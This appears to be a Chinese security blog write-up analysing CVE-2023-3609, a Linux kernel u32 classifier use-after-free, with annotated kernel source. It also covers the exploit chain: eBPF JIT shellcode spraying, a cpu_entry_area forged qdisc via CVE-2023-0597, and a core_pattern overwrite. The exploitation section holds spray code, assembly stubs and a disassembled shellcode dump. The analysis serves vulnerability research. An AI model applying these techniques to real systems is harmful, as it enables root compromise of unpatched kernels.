



# CVE-2023-3609 Linux 内核 UAF 漏洞分析与漏洞利用 - 先知社区

CVE-2023-3609 Linux 内核 UAF 漏洞分析与漏洞利用

- - -

## 漏洞分析

　　通过分析[补丁](https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/commit?id=04c55383fa5689357bcdd2c8036725a55ed632bc)和漏洞描述可以知道漏洞是位于 u32\_set\_parms 函数里面，代码如下：

```plain
static int u32_set_parms(struct net *net, struct tcf_proto *tp,
             unsigned long base,
             struct tc_u_knode *n, struct nlattr **tb,
             struct nlattr *est, u32 flags, u32 fl_flags,
             struct netlink_ext_ack *extack)
{

    if (tb[TCA_U32_LINK]) {
        u32 handle = nla_get_u32(tb[TCA_U32_LINK]);
        struct tc_u_hnode *ht_down = NULL, *ht_old;

        if (handle) {
            ht_down = u32_lookup_ht(tp->data, handle);
            ht_down->refcnt++;  // [1] 增加 ht_down->refcnt
        }

        ht_old = rtnl_dereference(n->ht_down);
        rcu_assign_pointer(n->ht_down, ht_down);

        if (ht_old)
            ht_old->refcnt--;
    }
    if (tb[TCA_U32_CLASSID]) {
        n->res.classid = nla_get_u32(tb[TCA_U32_CLASSID]);
        tcf_bind_filter(tp, &n->res, base); // [2] bind class 到 n->res
    }

    if (tb[TCA_U32_INDEV]) {
        int ret;
        ret = tcf_change_indev(net, tb[TCA_U32_INDEV], extack); 
        if (ret < 0)
            return -EINVAL;
        n->ifindex = ret;
    }
    return 0;
}
```

　　补丁描述中认为漏洞会导致的问题是 tcf\_change\_indev 返回错误退出后，会导致 ht\_down->refcnt 泄漏，最终可以导致引用计数溢出从而 UAF，因为 u32\_set\_parms 的调用者在函数返回失败后也不会清理 n->ht\_down->refcnt .

```plain
static int u32_change(struct net *net, struct sk_buff *in_skb,
              struct tcf_proto *tp, unsigned long base, u32 handle,
              struct nlattr <span style="font-weight: bold;" data-type="strong">tca, void </span>arg, u32 flags,
              struct netlink_ext_ack *extack)
{
    err = nla_parse_nested_deprecated(tb, TCA_U32_MAX, opt, u32_policy,
                      extack);
    n = *arg;
    if (n) {
        struct tc_u_knode *new;

        new = u32_init_knode(net, tp, n);
        err = u32_set_parms(net, tp, base, new, tb,  // [3] 调用点 1
                    tca[TCA_RATE], flags, new->flags,
                    extack);

        if (err) {
            __u32_destroy_key(new);
            return err;
        }
        .....
        return 0;
    }


    n = kzalloc(struct_size(n, sel.keys, s->nkeys), GFP_KERNEL);
    err = u32_set_parms(net, tp, base, n, tb, tca[TCA_RATE],  // [4] 调用点 2
                flags, n->flags, extack);
    if (err == 0) {
        struct tc_u_knode __rcu **ins;
        struct tc_u_knode *pins;

        err = u32_replace_hw_knode(tp, n, flags, extack);
        if (err)
            goto errhw;

        if (!tc_in_hw(n->flags))
            n->flags |= TCA_CLS_FLAGS_NOT_IN_HW;

        ins = &ht->ht[TC_U32_HASH(handle)];
        for (pins = rtnl_dereference(*ins); pins;
             ins = &pins->next, pins = rtnl_dereference(*ins))
            if (TC_U32_NODE(handle) < TC_U32_NODE(pins->handle))
                break;

        RCU_INIT_POINTER(n->next, pins);
        rcu_assign_pointer(*ins, n);
        tp_c->knodes++;
        *arg = n;
        return 0;
    }

errhw:
#ifdef CONFIG_CLS_U32_MARK
    free_percpu(n->pcpu_success);
#endif

errout:
    tcf_exts_destroy(&n->exts);
#ifdef CONFIG_CLS_U32_PERF
errfree:
    free_percpu(n->pf);
#endif
    kfree(n);
erridr:
    idr_remove(&ht->handle_idr, handle);
    return err;
}
```

　　本文的漏洞利用则是通过 u32\_set\_parms 代码 \[2\] 的逻辑实现的利用。

　　先来看一下 u32\_set\_parms 正常处理的逻辑，如果用户态传入了 TCA\_U32\_CLASSID ，函数会调用 tcf\_bind\_filter 搜索对应的 class，并将其指针放到 tc\_u\_knode->res.class 同时增加 class 的引用计数，以引用 drr\_class 为例：

　　​​[](https://img2023.cnblogs.com/blog/1454902/202401/1454902-20240120200038496-1454068470.png)​​

　　在 drr\_class 被 bind 后会增加 filter\_cnt ，这个用于表示 class 的引用计数，unbind 的时候会对应减少引用计数

```plain
static unsigned long drr_bind_tcf(struct Qdisc *sch, unsigned long parent,
                  u32 classid)
{
    struct drr_class *cl = drr_find_class(sch, classid);

    if (cl != NULL)
        cl->filter_cnt++;

    return (unsigned long)cl;
}

static void drr_unbind_tcf(struct Qdisc *sch, unsigned long arg)
{
    struct drr_class *cl = (struct drr_class *)arg;

    cl->filter_cnt--;
}
```

　　filter\_cnt 会在 drr\_delete\_class 释放 drr\_class 时检查，filter\_cnt==0 时才能释放 drr\_class

```plain
static int drr_delete_class(struct Qdisc *sch, unsigned long arg,
                struct netlink_ext_ack *extack)
{
    struct drr_sched *q = qdisc_priv(sch);
    struct drr_class *cl = (struct drr_class *)arg;

    if (cl->filter_cnt > 0)
        return -EBUSY;

    sch_tree_lock(sch);

    qdisc_purge_queue(cl->qdisc);
    qdisc_class_hash_remove(&q->clhash, &cl->common);

    sch_tree_unlock(sch);

    drr_destroy_class(sch, cl);
    return 0;
}
```

　　下面看看这个漏洞如何让 drr\_class 的引用计数被错误的减少，具体步骤：

1.  分配一个 drr\_class (C1)，此时 drr\_class->filter\_cnt 为 0
2.  通过 u32\_change 的 代码 \[2\] 分支，新建一个 tc\_u\_knode (N1)引用 C1，此时 C1\->filter\_cnt 为 1，N1 会被放到 tp->root->ht\[0\] 中
3.  通过 u32\_change 的 代码 \[1\] 分支，此时 n = N1，代码会分配 new->res = n->res = N1->res
    
    1.  进入 u32\_set\_parms 后会先 tcf\_bind\_filter --> \_\_tcf\_bind\_filter ，由于 此时 n->res.class 有值（C1），所以会 unbind\_tcf 该 class
    2.  unbind 后 C1->filter\_cnt = 0
    3.  然后通过传入错误的参数让 tcf\_change\_indev 失败，函数返回错误码
    4.  u32\_change 也会由于 u32\_set\_parms 的出错直接 return 返回
4.  使用 tc\_ctl\_tclass 释放 C1， 由于 C1->filter\_cnt = 0 会被正常释放
5.  通过发包进入 drr\_enqueue
    
    1.  函数首先通过 tcf\_classify-->u32\_classify 在 tp->root->ht\[0\] 中 找到 N1
    2.  然后会使用 N1->res.class 指针（C1），而此时 C1 已经被释放 。

　　​[](https://img2023.cnblogs.com/blog/1454902/202401/1454902-20240120200039026-481953664.png)​

## 漏洞利用

　　先来看一下 USE 点，通过 sendmsg 堆喷可以控制 cl 的内容.

```plain
static int drr_enqueue(struct sk_buff *skb, struct Qdisc *sch,
               struct sk_buff **to_free)
{
    unsigned int len = qdisc_pkt_len(skb);
    struct drr_sched *q = qdisc_priv(sch);
    cl = drr_classify(skb, sch, &err);
    first = !cl->qdisc->q.qlen;
    err = qdisc_enqueue(skb, cl->qdisc, to_free);
    return err;
}
```

　　qdisc\_enqueue 里面会调用 cl->qdisc->enqueue，作者利用一些技巧在不泄漏地址随机化的情况下在内核中执行 shellcode

1.  堆喷 ebpf，利用 ebpf 指令的操作数在 内核可控位置 （sc\_addr）布置 shellcode
2.  利用 CVE-2023-0597 在 cpu\_entry\_area （内核地址固定）处伪造 qdisc->enqueue 到 sc\_addr
3.  占位 cl 劫持 cl->qdisc 到 cpu\_entry\_area
4.  qdisc\_enqueue 调用函数指针跳转到 sc\_addr 执行 shellcode.

　　‍

### 堆喷 shellcode

　　用户态可以通过 setsockopt 分配

```plain
struct sock_fprog prog = {
        .len =  TSIZE,
        .filter = filter,
    };
    for(int i=0;i<NUM;i++){
        int fd[2];
        SYSCHK(socketpair(AF_UNIX,SOCK_DGRAM,0,fd));
        SYSCHK(setsockopt(fd[0],SOL_SOCKET,26,&prog,sizeof(prog)));
    }
```

　　filter 里面就是一堆的 ebpf 指令

```plain
struct sock_filter table[] = {
        {.code = BPF_LD + BPF_K, .k = 0xb3909090},
        {.code = BPF_LD + BPF_K, .k = 0xb3909090},
        .....................
};
```

　　上述指令生成 jit 后的代码如下：

```plain
b8 90 90 90 b3    mov eax, 0xb3909090
b8 90 90 90 b3    mov eax, 0xb3909090
```

　　控制 rip 跳到 jit 代码的中间，jit代码会被解析成如下指令

```plain
90       nop 
b3 b8    mov    bl, 0xb8
90       nop
90       nop
90       nop
b3 b8    mov    bl, 0xb8
```

　　因此我们就能利用操作数在 jit 内存中堆喷指令，这种思路在绕过 v8 wasm jit 缓解措施时也被经常使用。

　　上述 nop + mov 指令可以认为是一些 nop 指令，通过堆喷大量 "nop 指令" + shellcode， 就可以大概率让 0xffffffffcc000800 指向 nop 指令中间，然后跳转过去就能执行到 shellcode.

　　‍

　　​​[](https://img2023.cnblogs.com/blog/1454902/202401/1454902-20240120200039572-564600362.png)​​

　　‍

　　在 drr\_enqueue 中下断点打印 cl->qdisc->enqueue 处的指令：

```plain
(gdb) list
343                             qdisc_qstats_drop(sch);
344                     __qdisc_drop(skb, to_free);
345                     return err;
346             }
347
348             first = !cl->qdisc->q.qlen;
349             err = qdisc_enqueue(skb, cl->qdisc, to_free);
350             if (unlikely(err != NET_XMIT_SUCCESS)) {
351                     if (net_xmit_drop_count(err)) {
352                             cl->qstats.drops++;
(gdb) p cl
$3 = (struct drr_class *) 0xffff88813720ba00
(gdb) p cl->qdisc
$4 = (struct Qdisc *) 0xfffffe000003df58
(gdb) p cl->qdisc->enqueue
$6 = (int (*)(struct sk_buff *, struct Qdisc *, struct sk_buff **)) 0xffffffffcc000800
(gdb) x/4i 0xffffffffcc000800
   0xffffffffcc000800:  nop
   0xffffffffcc000801:  nop
   0xffffffffcc000802:  nop
   0xffffffffcc000803:  mov    bl,0xb8
    .......................
   .......................
   0xffffffffcc001e15:  mov    bl,0xb8
   0xffffffffcc001e17:  nop
   0xffffffffcc001e18:  nop
   0xffffffffcc001e19:  nop
   0xffffffffcc001e1a:  mov    bl,0xb8
   0xffffffffcc001e1c:  nop
   0xffffffffcc001e1d:  nop
   0xffffffffcc001e1e:  nop
   0xffffffffcc001e1f:  mov    bl,0xb8   ---> 真实 shellcode 部分
   0xffffffffcc001e21:  xor    ecx,ecx
   0xffffffffcc001e23:  nop
   0xffffffffcc001e24:  cmp    al,0xb8
   0xffffffffcc001e26:  xor    edx,edx
   0xffffffffcc001e28:  nop
   0xffffffffcc001e29:  cmp    al,0xb8
   0xffffffffcc001e2b:  mov    cl,0xc0
   0xffffffffcc001e2d:  nop
   0xffffffffcc001e2e:  cmp    al,0xb8
   0xffffffffcc001e30:  shl    ecx,0x18
   0xffffffffcc001e33:  cmp    al,0xb8
   0xffffffffcc001e35:  mov    cl,0x82
   0xffffffffcc001e37:  nop
   0xffffffffcc001e38:  cmp    al,0xb8
   0xffffffffcc001e3a:  rdmsr  
   0xffffffffcc001e3c:  nop
   0xffffffffcc001e3d:  cmp    al,0xb8
   0xffffffffcc001e3f:  xor    ecx,ecx
   0xffffffffcc001e41:  nop
   0xffffffffcc001e42:  cmp    al,0xb8
   0xffffffffcc001e44:  mov    cl,0x20
   0xffffffffcc001e46:  nop
   0xffffffffcc001e47:  cmp    al,0xb8
   0xffffffffcc001e49:  shl    rdx,cl
   0xffffffffcc001e4c:  cmp    al,0xb8
   0xffffffffcc001e4e:  add    rdx,rax
   0xffffffffcc001e51:  cmp    al,0xb8
   0xffffffffcc001e53:  xor    esi,esi
   0xffffffffcc001e55:  nop
   0xffffffffcc001e56:  cmp    al,0xb8
   0xffffffffcc001e58:  mov    sil,0x1
   0xffffffffcc001e5b:  cmp    al,0xb8
   0xffffffffcc001e5d:  shl    esi,0x8
   0xffffffffcc001e60:  cmp    al,0xb8
   0xffffffffcc001e62:  mov    sil,0x3a
   0xffffffffcc001e65:  cmp    al,0xb8
   0xffffffffcc001e67:  shl    esi,0x8
   0xffffffffcc001e6a:  cmp    al,0xb8
   0xffffffffcc001e6c:  mov    sil,0x40
   0xffffffffcc001e6f:  cmp    al,0xb8
   0xffffffffcc001e71:  shl    esi,0x8
   0xffffffffcc001e74:  cmp    al,0xb8
   0xffffffffcc001e76:  mov    sil,0x90
   0xffffffffcc001e79:  cmp    al,0xb8
   0xffffffffcc001e7b:  add    rdx,rsi
   0xffffffffcc001e7e:  cmp    al,0xb8
   0xffffffffcc001e80:  mov    rdi,rdx
   0xffffffffcc001e83:  cmp    al,0xb8
   0xffffffffcc001e85:  xor    esi,esi
   0xffffffffcc001e87:  nop
   0xffffffffcc001e88:  cmp    al,0xb8
   0xffffffffcc001e8a:  mov    sil,0x1
   0xffffffffcc001e8d:  cmp    al,0xb8
   0xffffffffcc001e8f:  shl    esi,0x8
   0xffffffffcc001e92:  cmp    al,0xb8
   0xffffffffcc001e94:  mov    sil,0xc5
   0xffffffffcc001e97:  cmp    al,0xb8
   0xffffffffcc001e99:  shl    esi,0x8
   0xffffffffcc001e9c:  cmp    al,0xb8
   0xffffffffcc001e9e:  mov    sil,0x87
   0xffffffffcc001ea1:  cmp    al,0xb8
   0xffffffffcc001ea3:  shl    esi,0x8
   0xffffffffcc001ea6:  cmp    al,0xb8
   0xffffffffcc001ea8:  mov    sil,0x0
   0xffffffffcc001eab:  cmp    al,0xb8
   0xffffffffcc001ead:  sub    rdx,rsi
   0xffffffffcc001eb0:  cmp    al,0xb8
   0xffffffffcc001eb2:  mov    rax,rdx
   0xffffffffcc001eb5:  cmp    al,0xb8
   0xffffffffcc001eb7:  xor    esi,esi
   0xffffffffcc001eb9:  nop
   0xffffffffcc001eba:  cmp    al,0xb8
   0xffffffffcc001ebc:  mov    sil,0xa0
   0xffffffffcc001ebf:  cmp    al,0xb8
   0xffffffffcc001ec1:  shl    esi,0x10
   0xffffffffcc001ec4:  cmp    al,0xb8
   0xffffffffcc001ec6:  xor    edx,edx
   0xffffffffcc001ec8:  nop
   0xffffffffcc001ec9:  cmp    al,0xb8
   0xffffffffcc001ecb:  mov    dl,0x30
   0xffffffffcc001ecd:  nop
   0xffffffffcc001ece:  cmp    al,0xb8
   0xffffffffcc001ed0:  push   rax
   0xffffffffcc001ed1:  nop
   0xffffffffcc001ed2:  nop
   0xffffffffcc001ed3:  cmp    al,0xb8
   0xffffffffcc001ed5:  call   rax
   0xffffffffcc001ed7:  nop
   0xffffffffcc001ed8:  cmp    al,0xb8
   0xffffffffcc001eda:  pop    rax
   0xffffffffcc001edb:  nop
   0xffffffffcc001edc:  nop
   0xffffffffcc001edd:  cmp    al,0xb8
   0xffffffffcc001edf:  xor    esi,esi
   0xffffffffcc001ee1:  nop
   0xffffffffcc001ee2:  cmp    al,0xb8
   0xffffffffcc001ee4:  mov    sil,0x0
   0xffffffffcc001ee7:  cmp    al,0xb8
   0xffffffffcc001ee9:  shl    esi,0x8
   0xffffffffcc001eec:  cmp    al,0xb8
   0xffffffffcc001eee:  mov    sil,0x5e
   0xffffffffcc001ef1:  cmp    al,0xb8
   0xffffffffcc001ef3:  shl    esi,0x8
   0xffffffffcc001ef6:  cmp    al,0xb8
   0xffffffffcc001ef8:  mov    sil,0xa1
   0xffffffffcc001efb:  cmp    al,0xb8
   0xffffffffcc001efd:  shl    esi,0x8
   0xffffffffcc001f00:  cmp    al,0xb8
   0xffffffffcc001f02:  mov    sil,0xc0
   0xffffffffcc001f05:  cmp    al,0xb8
   0xffffffffcc001f07:  sub    rax,rsi
   0xffffffffcc001f0a:  cmp    al,0xb8
   0xffffffffcc001f0c:  xor    edi,edi
   0xffffffffcc001f0e:  nop
   0xffffffffcc001f0f:  cmp    al,0xb8
   0xffffffffcc001f11:  mov    dil,0x70
   0xffffffffcc001f14:  cmp    al,0xb8
   0xffffffffcc001f16:  shl    edi,0x14
   0xffffffffcc001f19:  cmp    al,0xb8
   0xffffffffcc001f1b:  call   rax
```

　　shellcode 的功能大概是：

1.  通过 rdmsr 指令获取内核地址
2.  然后利用 copy\_from\_user 修改 core\_pattern

　　然后用户态触发 `core_pattern`​ 提权。

　　‍

### 在内核固定地址伪造 qdisc

　　作者利用 CVE-2023-0597 实现在 cpu\_entry\_area 处布置数据伪造 cl->qdisc->enqueue：

```plain
foo:
    mov rsp,rdi
    pop r15
    pop r14
    pop r13
    pop r12
    pop rbp
    pop rbx
    pop r11
    pop r10
    pop r9
    pop r8
    pop rax
    pop rcx
    pop rdx
    pop rsi
    pop rdi
    div qword [0x1234000] ; trigger div 0 exception
```

　　原理是用户态触发异常，内核会把用户态寄存器的值放到 cpu\_entry\_area 区域。

　　然后占位劫持 cl->qdisc 到 cpu\_entry\_area，控制 cl->qdisc->enqueue = 0xffffffffcc000800 就可以执行 shellcode.

　　‍

## 总结

1.  利用 ebpf 在内核布置 shellcode 的思路非常不错，其他漏洞也能使用
2.  利用 CVE-2023-0597 在内核可控位置布置数据，这个思路会对漏洞利用起到很大帮助.

　　‍

## 参考

-   [https://github.com/google/security-research/blob/master/pocs/linux/kernelctf/CVE-2023-3609\_cos\_mitigation/docs/exploit.md](https://github.com/google/security-research/blob/master/pocs/linux/kernelctf/CVE-2023-3609_cos_mitigation/docs/exploit.md)
    
    ‍
    

　　‍

　　‍
